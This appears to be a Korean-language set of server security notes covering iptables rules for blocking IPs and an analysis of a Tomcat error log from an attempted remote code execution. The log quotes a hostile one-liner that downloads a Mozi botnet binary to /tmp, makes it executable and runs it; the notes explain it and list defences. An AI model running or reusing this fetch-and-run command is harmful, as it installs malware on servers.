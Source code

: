 # IP 차단

- 인바운드/아웃바운드 차단

> sudo iptables -A INPUT -s {차단할_IP} -j DROP

> sudo iptables -A OUTPUT -d {차단할_IP} -j DROP

- 재부팅시에도 유지 
> sudo iptables-save | sudo tee /etc/iptables/rules.v4


- 저장되어 있는 규칙 확인
> sudo iptables -L -n -v

![img_1.png](img_1.png)



## 공격 로그

![img.png](img.png)


---

## 웹 해킹 



## 에러 분석 및 대응 방법

### 1. **에러 분석**

```
java.lang.IllegalArgumentException: Invalid character found in method name [27;wget%20http://%s:%d/Mozi.m%20-O%20->%20/tmp/Mozi.m;chmod%20777%20/tmp/Mozi.m;/tmp/Mozi.m%20dlink.mips%27$ ]
```

#### **원인 분석**
1. **Invalid character found in method name**:
    - HTTP 요청의 메서드 이름에서 유효하지 않은 문자가 발견됨.
    - HTTP 메서드는 일반적으로 `GET`, `POST`, `PUT`, `DELETE` 등으로 구성되어야 하지만, 메서드 이름에 명령어 문자열이 포함되어 있어 에러 발생.

2. **Request details**:
    - 요청에 포함된 `wget http://%s:%d/Mozi.m`은 파일 다운로드 명령어로 보이며, 이는 **공격자가 악성 파일을 다운로드하고 실행**하려는 시도.

3. **`wget`**:
    - Linux/Unix 시스템에서 URL을 통해 파일을 다운로드하는 명령어.
    - **리모트 코드 실행(Remote Code Execution, RCE)** 공격에서 악성 스크립트를 다운로드할 때 자주 사용됨.

4. **`/tmp/Mozi.m`**:
    - 다운로드하려는 파일의 저장 경로.
    - `/tmp/` 디렉터리는 임시 파일 저장소로 악성 파일이 실행될 위험이 있음.

5. **`chmod 777`**:
    - **모든 사용자에게 읽기, 쓰기, 실행 권한을 부여**하는 명령어.
    - 이를 통해 공격자가 다운로드한 악성 파일을 실행 가능하게 만듦.

---

### 2. **공격 패턴**
- 이 요청은 **웹 쉘(Web Shell) 공격**의 일부일 가능성이 높음.
- 공격자는 리모트 코드 실행(RCE)을 통해 서버에 악성 파일을 다운로드하고, 권한을 부여하여 실행하려는 시도를 하고 있음.

---

### 3. **가능한 대응 방법**

#### 1. **웹 방화벽(WAF) 적용**
- **WAF**를 통해 악성 요청을 필터링.
- `wget`, `chmod`와 같은 명령어를 포함한 요청을 차단.

#### 2. **로그 분석 및 모니터링 강화**
- 해당 요청이 발생한 **IP 주소 추적**:
    - 악성 요청의 출처를 확인하고, 비정상적인 활동을 탐지.
    - 관련 IP를 방화벽에서 **차단**.

#### 3. **서버 보안 강화**
- 서버의 보안 패치 업데이트:
    - 최신 상태로 유지하여 알려진 취약점을 차단.
- **파일 업로드 제한 및 디렉터리 권한 강화**:
    - `/tmp/`와 같은 디렉터리에서 실행 권한을 제거하여 악성 파일 실행 방지.

#### 4. **입력 검증 강화**
- **요청 입력 검증**:
    - 클라이언트에서 보내는 모든 입력을 철저히 검사.
    - 특수 문자나 의심스러운 문자열이 포함된 요청은 차단.

---

### 4. **결론**
- 이 로그는 **리모트 코드 실행 공격**의 일부로, 악성 파일을 서버에 다운로드하고 실행하려는 시도로 분석됨.
- 공격을 방지하기 위해:
    1. **웹 방화벽(WAF)**로 악성 요청 필터링.
    2. **보안 패치** 및 **권한 설정 강화**.
    3. **입력 검증**을 통해 악성 요청을 차단.

---

